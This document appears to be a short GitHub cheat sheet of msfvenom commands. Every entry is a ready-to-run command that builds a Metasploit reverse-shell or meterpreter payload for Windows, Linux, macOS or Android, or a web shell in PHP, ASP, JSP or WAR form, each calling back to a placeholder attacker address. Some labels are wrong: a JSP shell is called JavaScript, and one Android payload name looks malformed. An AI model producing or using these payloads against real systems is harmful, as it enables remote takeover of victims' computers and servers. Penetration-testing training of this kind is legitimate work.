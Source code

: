# Msfvenom-Cheat-Sheet
A list of msfvenom commands

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(IP Address) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(IP Address) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |
